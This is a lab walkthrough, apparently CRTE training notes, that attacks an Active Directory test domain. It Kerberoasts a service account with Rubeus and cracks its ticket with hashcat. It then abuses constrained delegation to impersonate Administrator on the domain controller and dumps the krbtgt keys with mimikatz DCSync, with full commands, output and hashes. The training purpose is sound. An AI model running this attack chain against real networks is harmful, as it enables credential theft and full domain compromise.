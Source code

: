 # 1. Kerberoasting
- From [[3. CRTE/2. Lab Walkthrough/2nd Forest (eu.local)/eu.local/1. Domain Enumeration|1. Domain Enumeration]] we discovered a Kerberoastable domain account, `eu\storagesvc`. Let's request a TGS for that account using **Rubeus**.
```powershell
PS C:\Auditor> .\Rubeus.exe kerberoast /user:storagesvc /domain:eu.local /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : storagesvc
[*] Target Domain          : eu.local
[*] Searching path 'LDAP://EU-DC.eu.local/DC=eu,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=storagesvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : storagesvc
[*] DistinguishedName      : CN=storagesvc,CN=Users,DC=eu,DC=local
[*] ServicePrincipalName   : MSSQLSvc/eu-file.eu.local
[*] PwdLastSet             : 1/8/2021 5:56:16 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*storagesvc$eu.local$MSSQLSvc/eu-file.eu.local@eu.local*$B6E53...
```
- We will now copy the _Hash_ value of the output, append it to a file and attempt to crack this TGS using **Hashcat**.
```zsh
┌──(root🔱KaliVM)-[/home/pri3st/Desktop/Training/CRTE]
└─# hashcat -O -a 0 -m 13100 storagesvc.tgs Tools/10k-worst-pass.txt

<snip>

$krb5tgs$23$*storagesvc$eu.local$MSSQLSvc/eu-file.eu.local@eu.local*$b6e53...:Qwerty@123

<snip>
```
- We have now a valid set of credentials, **storagesvc:Qwerty@123**.
# 2. Rights, Privileges and Permissions of `eu\storagesvc`
- We can now use the compromised credentials of `eu\storagesvc` to impersonate that account in a new, sacrificial PowerShell process, and attempt to move laterally in the network.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:storagesvc /password:Qwerty@123 /domain:eu.local /ptt

<snip>
```
## 2.1 Access Rights
- `eu\storagesvc` does not have any access rights to domain computers or file shares.
## 2.2 Account Privileges
- `eu\storagesvc` had KCD privileges over `EU-DC`. This privilege allows a principal to authenticate as any user to specific services (found in the msds-AllowedToDelegateTo LDAP property in the source node tab) on the target computer. That is, a node with this privilege can impersonate any domain principal (including Domain Admins) to the specific service on the target host.
- Since the service name (sname) of the resulting ticket is not a part of the protected ticket information, an attacker can modify the target service name to any service of their choice.
- First, we need the RC4 hash of `us'storagesvc`'s plaintext password.
```powershell
PS C:\Auditor> .\Rubeus.exe hash /user:storagesvc /password:Qwerty@123 /domain:eu.local

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : Qwerty@123
[*] Input username             : storagesvc
[*] Input domain               : eu.local
[*] Salt                       : EU.LOCALstoragesvc
[*]       rc4_hmac             : 5C76877A9C454CDED58807C20C20AEAC
[*]       aes128_cts_hmac_sha1 : 4A5DDDB19CD631AEE9971FB40A8195B8
[*]       aes256_cts_hmac_sha1 : 4A0D89D845868AE3DCAB270FE23BEDD442A62C4CAD7034E4C60BEDA3C0F65E04
[*]       des_cbc_md5          : 7F7C6ED00258DC57
```
- We will abuse this using **Rubeus**, abusing the Kerberos _S4U2self/S4U2proxy_ modules to impersonate a high-privileged domain user, as well as requesting alternative TGSs for the services of our choice by abusing the unprotected `sname` attribute.
```powershell
PS C:\Auditor> .\Rubeus.exe s4u /user:storagesvc /rc4:5C76877A9C454CDED58807C20C20AEAC /domain:eu.local /dc:eu-dc.eu.local /impersonateuser:Administrator /msdsspn:time/EU-DC.eu.local /altservice:cifs,ldap,http,host,wsman /ptt

<snip>

PS C:\Auditor> klist

Current LogonId is 0:0x1b7af30

Cached Tickets: (5)

#0>     Client: Administrator @ EU.LOCAL
        Server: wsman/EU-DC.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 12/9/2023 2:12:22 (local)
        End Time:   12/9/2023 12:12:22 (local)
        Renew Time: 12/16/2023 2:12:22 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

#1>     Client: Administrator @ EU.LOCAL
        Server: host/EU-DC.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 12/9/2023 2:12:22 (local)
        End Time:   12/9/2023 12:12:22 (local)
        Renew Time: 12/16/2023 2:12:22 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

#2>     Client: Administrator @ EU.LOCAL
        Server: http/EU-DC.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 12/9/2023 2:12:22 (local)
        End Time:   12/9/2023 12:12:22 (local)
        Renew Time: 12/16/2023 2:12:22 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

#3>     Client: Administrator @ EU.LOCAL
        Server: ldap/EU-DC.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 12/9/2023 2:12:22 (local)
        End Time:   12/9/2023 12:12:22 (local)
        Renew Time: 12/16/2023 2:12:22 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

#4>     Client: Administrator @ EU.LOCAL
        Server: cifs/EU-DC.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 12/9/2023 2:12:22 (local)
        End Time:   12/9/2023 12:12:22 (local)
        Renew Time: 12/16/2023 2:12:22 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```
- We can now execute a DCSync attack against `EU-DC` and exfiltrate credentials for the `eu\krbtgt` account that will allow us to craft Golden Tickets for domain persistence.
```powershell
PS C:\Auditor> .\mimikatz.exe

<snip>

mimikatz # lsadump::dcsync /user:eu\krbtgt /domain:eu.local /dc:eu-dc.eu.local
[DC] 'eu.local' will be the domain
[DC] 'eu-dc.eu.local' will be the DC server
[DC] 'eu\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/12/2019 10:00:04 PM
Object Security ID   : S-1-5-21-3657428294-2017276338-1274645009-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 83ac1bab3e98ce6ed70c9d5841341538
    ntlm- 0: 83ac1bab3e98ce6ed70c9d5841341538
    lm  - 0: bcb73c3d2b4005e405ff7399f3ca2bf0

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a0c1c86edafc0218a106426f2309bafd

* Primary:Kerberos-Newer-Keys *
    Default Salt : EU.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d
      aes128_hmac       (4096) : e2ef89cdbd94d396f63c9aa5b66e16c7
      des_cbc_md5       (4096) : 92371fe32c9ba208

<snip>
```
## 2.3 Account Privileges
- `eu\storagesvc` does not have any interesting permissions.